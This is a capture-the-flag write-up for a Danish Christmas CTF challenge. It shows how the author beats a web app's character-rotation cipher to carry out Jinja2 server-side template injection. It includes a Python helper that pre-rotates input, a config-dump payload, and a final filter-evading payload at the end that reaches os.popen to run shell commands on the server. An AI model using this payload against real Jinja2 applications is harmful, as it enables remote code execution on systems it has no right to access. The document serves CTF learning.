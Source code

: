 # FDCA Julectf

https://julectf.fdca.dk/

## 13. December

**Challenge**

*FEAT. Kalmarunionen*

*Tror der er nogen der er begyndt at kede sig her op til jul, der er nogen der lagt en server ud på internettet. Tror måske en af hvemmerne er med i kalmaruninen, har han sørget for at sikre sin super seje 'ROT rainbow'?
https://fdca-willy.chals.io/*

Following the URL, we are presented with the following website:

![challenge website](https://github.com/Soyakongen/ctf-writeups/blob/main/writeupfiles/Challenge_page.gif)


The text says: "I made a cool ROT rainbow! Because ROT13 is too boring: Whats your name in ROT rainbow?"

Let's try to input something and see what it does... like: *soya*

![](https://github.com/Soyakongen/ctf-writeups/blob/main/writeupfiles/image1.png)


Ok, so `soya` became `sp{d`. Apparently the input is rotated following some pattern. 

Also, we're given a hint that the website is rendered using Jinja2. Jinja is a templating engine used for creating HTML templates and other documents that can contain dynamic content. A neat tool, but unfortunately it also has some uninteded behaviour, if the input is not sanitized correctly. Googling template injection in Jinja should give you some nice hits. Later in this writeup, I will be referring to the cheatsheet I found [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

Let's see if we can figure out a pattern for the input rotation. I just tried to input a bunch of a's:


![](https://github.com/Soyakongen/ctf-writeups/blob/main/writeupfiles/image2.png)


Great! It looks like the rotation rolls over at some point. From this we learn that we have the following character space of 95 characters: ``abcdefghijklmnopqrstuvwxyz{|}~ !"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_` ``


Let's try to make some sense of this. 
Recall the input `soya` which became `sp{d`. The first thing we notice is that the first charcter (at index 0) was not rotated. `o` became `p`. `y` was rotated to `{`. And `a` became `d`.


See a pattern here? Our input string is rotated character by character, based on their index in the input string and replaced with the corresponding character from the character space. 


Now we know how the input string is rotated. In order to try some template injection, we need to create a string of characters that, when rotated by the application, will become our desired test string. For example, we can try to see if we can get the application to dump its environment variables by inputting ` {{ config }}` [as suggested here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#dump-all-config-variables)


Let's go over how to reverse this for the string ` {{ config } `:


The first `{` is at index 0 in our string, so it will not be rotated
The next `{` is at index 1. Finding `{` in our character space, we rotate by -1, and it becomes `z`
Then we have a `space` at index 2, we find it in the character space and rotate by -2. That is a `}`
Continuing like that, we find that the string ``{z}`ki`b_vsr`` will be rotated to `{{ config }}` by the application.


Aaaand it turns out that the application indeed is vulnerable to template injections. This is the result from inputting ``{z}`ki`b_vsr`` - the environment variables are dumped by the application - neat!

![](https://github.com/Soyakongen/ctf-writeups/blob/main/writeupfiles/image3.png)


Obviously, continuing to rotate the input by hand was going to be very, very tiresome, so I wrote a small Python script that would rotate the input string for me:

```
char_space = r'''abcdefghijklmnopqrstuvwxyz{|}~ !"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`'''

input = r'''{{ config }}'''

output = ""

for idx, char in enumerate(input):

	char_space_idx = char_space.find(char)

	rot_idx = ((char_space_idx - idx) % 95)

	output += char_space[rot_idx]

print(output) # will print {z}`ki`b_vsr
```

Ok, what now? As described in the [link](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection): **"in a Jinja injection you need to find a way to escape from the sandbox and recover access the regular python execution flow. To do so, you need to abuse objects that are from the non-sandboxed environment but are accessible from the sandbox."**

So in the end, our ultimate goal is to be able to execute code on the machine. Following the guide on HackTricks, I tested out different input to find a viable way to obtain remote code execution on the machine. By  trial and error, it became clear that there was some input filtering going on as well, meaning that characters such as `_` and `.` in the evaluated string would make the server return an error. Finding a way to escape these, I finally managed to grep the flag from the `flag.txt` file on the server:

``{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('grep FDCA flag*')|attr('read')()}}``

![](https://github.com/Soyakongen/ctf-writeups/blob/main/writeupfiles/image4_redacted.png)
